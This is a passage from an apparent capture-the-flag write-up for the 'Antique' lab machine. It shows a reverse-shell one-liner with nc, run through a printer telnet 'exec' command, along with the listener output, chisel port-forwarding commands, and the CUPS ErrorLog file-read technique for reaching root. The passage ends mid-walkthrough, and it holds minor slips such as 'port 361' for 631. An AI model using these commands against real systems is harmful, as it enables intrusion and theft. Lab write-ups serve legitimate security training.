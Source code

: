 ```
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
as we can se, we can run system command using exec. So we can upload a reverse shell and gain access to the system,running:
```
> exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 4444 >/tmp/f
```
and here we obtain a shell ang user.txt

```
┌──(root💀kali)-[~]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.11.107] 33920
/bin/sh: 0: can't access tty; job control turned off
$ ls
telnet.py
user.txt
```

## Root
Having a foothold on the server, we start exploring the services that are running on the server.
```
lp@antique:~$ netstat . -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0    138 10.10.11.107:33968      10.10.14.28:4444        ESTABLISHED
tcp       10      0 10.10.11.107:23         10.10.14.28:35036       ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN     

```
There's a service running on port 361. This port is used by internet printing protocol by devault. Let's install chisel to do port forwarding
```
git clone https://github.com/jpillora/chisel
cd chisel && go build -ldflags="-s -w"
./chisel server -p8000--reverse
```
on the victin, launch the following command to forward the local port to the server listening on our client machine.
```
./chisel client 10.10.14.28:8000 R:631:127.0.0.1:631
```
Browsing to ``127.0.0.1:631`` on our machine shows CUPS administration page.  
CUPS versions less than 1.6.2 has a known local file read vulnerability. Navigate to Administration.  
Clicking on View Error Log shows the contents of error.log file. As CUPS server runs as root by default, arbitraty file read can be achieved by updating ErrorLog file path. Let's update the ErrorLog path using cupsctl.  
```
```